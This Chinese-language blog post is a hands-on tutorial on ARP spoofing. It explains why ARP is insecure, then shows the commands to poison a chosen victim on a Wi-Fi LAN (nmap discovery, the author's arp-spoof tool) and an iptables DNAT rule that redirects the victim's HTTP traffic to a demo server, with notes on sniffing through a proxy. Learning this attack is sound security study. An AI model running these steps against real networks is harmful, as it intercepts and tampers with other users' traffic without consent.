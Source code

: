 ```yaml
---
layout: post
title: "ARP spoofing"
subtitle: "通过 ARP 欺骗劫持 HTTP 流量"
date: 2019-02-15 17:48
tags: 
    - TCP/IP
    - Linux
---
```


主机上线到一个网络之后会获得至少一个 IP 地址（比如 DHCP 或静态地址）。IP 地址能反映网络的拓扑结构，但 IP 地址并不能唯一地标识一个网络接口；能够唯一标识一个网卡的是在制造出厂时写入的 6 字节的 MAC 地址。一个 IP 数据包在到达另一个接口之前，需要知道目的地 IP 地址的 MAC 地址。ARP 就是一个将 IP 地址解析为 MAC 地址的协议，而一个基于以太网之上的 ARP 数据包结构如下

![Internet Protocol(IPv4) over Ethernet ARP packet]({{ "img/arp-spoofing-packet.png" | absolute_url }})

由于 ARP 的使用者不检查 ARP 数据包的真实性，ARP 的请求和应答容易受到第三者的干扰，特别是在一些共享介质的链路（比如无线局域网）。在多数情况下，攻击者将自身的 MAC 地址和网关的 IP 写入 ARP 应答，向受害者发送这个虚假的 ARP 应答，把自己伪装成网关并拦截了受害者的数据包。这种网络攻击被成为 ARP 欺骗(ARP spoofing)，也是一种主动嗅探(active sniffing)，对应被动嗅探(passive sniffing, 比如在共享介质链路中将网卡置于混杂模式)。

下文记录一个在无线局域网中实施 ARP 攻击并劫持 HTTP 流量到服务器 demo 的过程。[这个发送 ARP 应答的程序](https://github.com/kennico/arp-spoofing) 使用到 libpcap 而且直接从系统的 ARP 缓存获取 IP 地址对应的 MAC 地址。

- OS: Ubuntu 16.04 x64
- Requirement: libpcap, nmap，python 3.5

首先通过 `ipconfig -a` 决定要用来实施攻击的网卡名称，以及对应的网段

```
kenny@kenny-X450LD:~$ ifconfig
wlan0     Link encap:Ethernet  HWaddr 11:22:33:44:55:66  
          inet addr:192.168.43.24  Bcast:192.168.43.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:24 errors:0 dropped:244 overruns:0 frame:0
          TX packets:74 errors:0 dropped:1 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:7509332 (7.5 MB)  TX bytes:1491944 (1.4 MB)
```

在这里我用的是 `wlan0`，网段为 192.168.43.24/24。然后使用
`nmap` 发现局域网的其他主机。选项 `-sn` 表示不进行端口扫描以节省时间：

```
kenny@kenny-X450LD:~$ sudo nmap -sn 192.168.43.24/24

Starting Nmap 7.01 ( https://nmap.org ) at 2019-02-15 20:55 CST
Nmap scan report for 192.168.43.1
Host is up (0.12s latency).
MAC Address: 22:39:56:76:90:6B (Unknown)
Nmap scan report for Kennico (192.168.43.79)
Host is up (0.075s latency).
MAC Address: 24:1B:7A:10:14:FC (Unknown)
Nmap scan report for kenny-X450LD (192.168.43.24)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 11.26 seconds
```

如果不使用 root 权限， `nmap` 会显示设备的名称而不是 MAC 地址。接下来选择 192.168.43.79(24:1B:7A:10:14:FC) 作为受害者。

由于我实现的程序使用系统 ARP 缓存，需要先添加这个记录到 ARP 缓存（同样需要 root 权限）：

```
kenny@kenny-X450LD:~$ sudo arp -s 192.168.43.79 24:1B:7A:10:14:FC
kenny@kenny-X450LD:~$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.43.79            ether   24:1b:7a:10:14:fc   CM                    wlan0
192.168.43.1             ether   22:39:56:76:90:6b   C                     wlan0
```

接下来运行发送 ARP 应答的程序。libpcap 的 `pcap_open_live` 函数需要 root 权限：

```
kenny@kenny-X450LD:~$ sudo ./arp-spoof -e wlan0 192.168.43.79
DEBUG: get_gateway_ip - Command: route -n | grep -P '^0\.0\.0\.0.+UG.+wlx502b73dc543f$'
DEBUG: Command: arp -n | awk '$0 !~ "incomplete"' | grep -oP '(\w{2}:){5}\w{2}|((\d+\.){3}\d+)'
DEBUG: device "wlan0" opened successfully.
DEBUG: ip=192.168.43.79 secs=10 pkts=-1 twoway=0
Attacking 192.168.43.79(24:1B:7A:10:14:FC)...
```

选项 `-e` 指定网卡；`-n` 为两次发送的时间间隔，以秒为单位；`-c` 表示发送应答的数目，缺省则一直循环。接着拉起一个 HTTP 服务器 demo：

```python
#
# python3 http_server.py
#
from http.server import SimpleHTTPRequestHandler
from socketserver import ThreadingTCPServer

page = """
<html>
<header><title>This is title</title></header>
<body>
Hello world
</body>
</html>
"""

class demoHttpRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Connection', 'close')
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(page.encode('utf-8'))

if __name__ == '__main__':
    try:
        httpd = ThreadingTCPServer(('127.0.0.1', 8080), demoHttpRequestHandler)
        httpd.serve_forever()
    except KeyboardInterrupt:
        print('httpd exits.')
```

服务器监听 127.0.0.1:8080。接下来是最重要的一步：将拦截到的 HTTP 流量转发到服务器 demo:

```shell
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp -s 192.168.43.79 --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```
这里的 `iptables` 添加一个规则到内核的 NAT 表(`-t nat`)，将规则追加(`-A`)到 PREROUTING 匹配链，表示在选择路由之前检查满足的条件的数据包：

- 来自 wlan0 (`-i`)
- 协议为 TCP (`-p`)
- 发送者为 192.168.43.79 (`-s`)
- 接收者端口为 80

一旦匹配成功就采取行动(`-j`)，将数据包转发到 127.0.0.1:8080(`-DNAT`表示更改接收者的地址)。使用 `iptables` 还有一个好处，一些原本需要绑定到低端口(<1024)服务器，现在可以绑定到高端口，因此服务器本身 **不需要 root 权限** 。

```
kenny@kenny-X450LD:~$ sudo iptables -t nat -L -v
Chain PREROUTING (policy ACCEPT 657 packets, 42591 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    5   320 DNAT       tcp  --  wlan0  any     192.168.43.79        anywhere             tcp dpt:http to:127.0.0.1:8080
...
```

下图为受害者设备用 chrome 访问 8.8.8.8 的截图（众所周知 8.8.8.8 是谷歌公共 DNS），可见 HTML 页面即为脚本里的字符串内容：

![HTTP]({{ "img/arp-spoofing-http.png" | absolute_url }})

上图中的设备直接访问给定 IP 的 80 端口。如果要访问一个域名，则还需要用 `iptables` 转发来自 53 端口 DNS 请求；除此之外，如果要实现嗅探 HTTP/HTTPS 流量，就应该拉起来透明代理而不是那个 HTTP demo，然后打开 wireshark 就可以很方便地进行抓包（下图并未使用透明代理）。

![Wireshark]({{ "img/arp-spoofing-wireshark.png" | absolute_url }})